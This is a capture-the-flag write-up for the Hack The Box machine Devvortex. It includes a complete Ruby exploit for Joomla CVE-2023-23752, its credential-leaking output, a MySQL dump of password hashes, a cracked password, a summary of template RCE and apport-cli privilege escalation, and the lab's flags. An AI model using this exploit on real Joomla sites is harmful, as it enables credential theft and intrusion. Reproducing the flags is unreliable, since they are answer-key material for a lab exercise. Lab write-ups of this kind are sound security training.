

## Overview

Devvortex is an easy-difficulty Linux machine that features a Joomla CMS that is vulnerable to information disclosure. Accessing the service's configuration file reveals plaintext credentials that lead to Administrative access to the Joomla instance. With administrative access, the Joomla template is modified to include malicious PHP code and gain a shell.  After gaining a shell and enumerating the database contents, hashed credentials are obtained, which are cracked and lead to SSH access to the machine. Post-exploitation enumeration reveals that the user is allowed to run apport-cli as root, which is leveraged to obtain a root shell.



**Name -** Devvortex

**IP -** 10.10.11.242

**Difficulty -** Easy

**OS -** Linux

**Points -** 20

## Information Gathering

### Port Scan

Basic Scan

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-29 21:18 +06
Nmap scan report for 10.10.11.242
Host is up (0.052s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.99 seconds
```

Version Scan

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-29 21:18 +06
Nmap scan report for 10.10.11.242
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.58 seconds
```

### **HTTP Enumeration**

The 80 port has the following website hosted


Gobuster failed to find any useful directories or files. So, I tried to find any hidden subdomain and found one using wfuzz (dev.devvortex.htb)


And the subdomain looks like following


The site is using a popular CMS Joomla


Looks like joomla 4.2 installed


Looks like this joomla version is vulnerable with [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752)


I used the following exploit from exploit-db https://www.exploit-db.com/exploits/51334

```ruby
#!/usr/bin/env ruby

# Exploit
## Title: Joomla! v4.2.8 - Unauthenticated information disclosure
## Exploit author: noraj (Alexandre ZANNI) for ACCEIS (https://www.acceis.fr)
## Author website: https://pwn.by/noraj/
## Exploit source: https://github.com/Acceis/exploit-CVE-2023-23752
## Date: 2023-03-24
## Vendor Homepage: https://www.joomla.org/
## Software Link: https://downloads.joomla.org/cms/joomla4/4-2-7/Joomla_4-2-7-Stable-Full_Package.tar.gz?format=gz
## Version: 4.0.0 < 4.2.8 (it means from 4.0.0 up to 4.2.7)
## Tested on: Joomla! Version 4.2.7
## CVE : CVE-2023-23752
## References:
##   - https://nsfocusglobal.com/joomla-unauthorized-access-vulnerability-cve-2023-23752-notice/
##   - https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html
##   - https://attackerkb.com/topics/18qrh3PXIX/cve-2023-23752
##   - https://nvd.nist.gov/vuln/detail/CVE-2023-23752
##   - https://vulncheck.com/blog/joomla-for-rce
##   - https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2023/CVE-2023-23752.yaml

# standard library
require 'json'
# gems
require 'httpx'
require 'docopt'
require 'paint'

doc = <<~DOCOPT
  #{Paint['Joomla! < 4.2.8 - Unauthenticated information disclosure', :bold]}

  #{Paint['Usage:', :red]}
    #{__FILE__} <url> [options]
    #{__FILE__} -h | --help

  #{Paint['Parameters:', :red]}
    <url>       Root URL (base path) including HTTP scheme, port and root folder

  #{Paint['Options:', :red]}
    --debug     Display arguments
    --no-color  Disable colorized output (NO_COLOR environment variable is respected too)
    -h, --help  Show this screen

  #{Paint['Examples:', :red]}
    #{__FILE__} http://127.0.0.1:4242
    #{__FILE__} https://example.org/subdir

  #{Paint['Project:', :red]}
    #{Paint['author', :underline]} (https://pwn.by/noraj / https://twitter.com/noraj_rawsec)
    #{Paint['company', :underline]} (https://www.acceis.fr / https://twitter.com/acceis)
    #{Paint['source', :underline]} (https://github.com/Acceis/exploit-CVE-2023-23752)
DOCOPT

def fetch_users(root_url, http)
  vuln_url = "#{root_url}/api/index.php/v1/users?public=true"
  http.get(vuln_url)
end

def parse_users(root_url, http)
  data_json = fetch_users(root_url, http)
  data = JSON.parse(data_json)['data']
  users = []
  data.each do |user|
    if user['type'] == 'users'
      id = user['attributes']['id']
      name = user['attributes']['name']
      username = user['attributes']['username']
      email = user['attributes']['email']
      groups = user['attributes']['group_names']
      users << {id: id, name: name, username: username, email: email, groups: groups}
    end
  end
  users
end

def display_users(root_url, http)
  users = parse_users(root_url, http)
  puts Paint['Users', :red, :bold]
  users.each do |u|
    puts "[#{u[:id]}] #{u[:name]} (#{Paint[u[:username], :yellow]}) - #{u[:email]} - #{u[:groups]}"
  end
end

def fetch_config(root_url, http)
  vuln_url = "#{root_url}/api/index.php/v1/config/application?public=true"
  http.get(vuln_url)
end

def parse_config(root_url, http)
  data_json = fetch_config(root_url, http)
  data = JSON.parse(data_json)['data']
  config = {}
  data.each do |entry|
    if entry['type'] == 'application'
      key = entry['attributes'].keys.first
      config[key] = entry['attributes'][key]
    end
  end
  config
end

def display_config(root_url, http)
  c = parse_config(root_url, http)
  puts Paint['Site info', :red, :bold]
  puts "Site name: #{c['sitename']}"
  puts "Editor: #{c['editor']}"
  puts "Captcha: #{c['captcha']}"
  puts "Access: #{c['access']}"
  puts "Debug status: #{c['debug']}"
  puts
  puts Paint['Database info', :red, :bold]
  puts "DB type: #{c['dbtype']}"
  puts "DB host: #{c['host']}"
  puts "DB user: #{Paint[c['user'], :yellow, :bold]}"
  puts "DB password: #{Paint[c['password'], :yellow, :bold]}"
  puts "DB name: #{c['db']}"
  puts "DB prefix: #{c['dbprefix']}"
  puts "DB encryption #{c['dbencryption']}"
end

begin
  args = Docopt.docopt(doc)
  Paint.mode = 0 if args['--no-color']
  puts args if args['--debug']

  http = HTTPX
  display_users(args['<url>'], http)
  puts
  display_config(args['<url>'], http)
rescue Docopt::Exit => e
  puts e.message
end
```

Running the exploit shows some information of the system


```
╰─ ruby exp.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

Using the credentials, I was able to log into the joomla admin page.


From there it is easy to get a shell using the instruction given [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)


And Successfully got RCE. Now with that RCE, I turned it into a reverse shell.


## Getting User.txt

After that, I dump the user credentials from mysql db

```bash
<htb/administrator/templates/atum$ mysql -u lewis -p                 
Enter password: P4ntherg0t1n5r3c0n##

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 135
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases
show databases
    -> ;
;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla;
use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)

mysql> select * from sd4fg_users;
select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-03-30 09:55:10 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)

mysql> exit
exit
Bye

```


Then, I used hashcat to crack the hash of logan.


The password is - **tequieromucho**

With that password, I was able to log into the system as logan and grab the flag `5e793fed60ebe76d293e58dc7e9f035d`


## Getting root.txt

The user `logan` can run apport-cli with sudo


Searching online, I came to know about a vulnerability [CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326) in apport-cli 


This github commit explains the way to exploit this https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb

I tried to use the command to exploit but it needs a real crash file


So, I found the following article which shared different way to crash https://linux-audit.com/understand-and-configure-core-dumps-work-on-linux/. I used it to generate a crash file


Then I again tried to exploit the apport-cli. This time it was successful and I got the root flag `79be3d7da28f163eafc14b670d51eac1`


## Flags

**user.txt -** 5e793fed60ebe76d293e58dc7e9f035d

**root.txt -** 79be3d7da28f163eafc14b670d51eac1
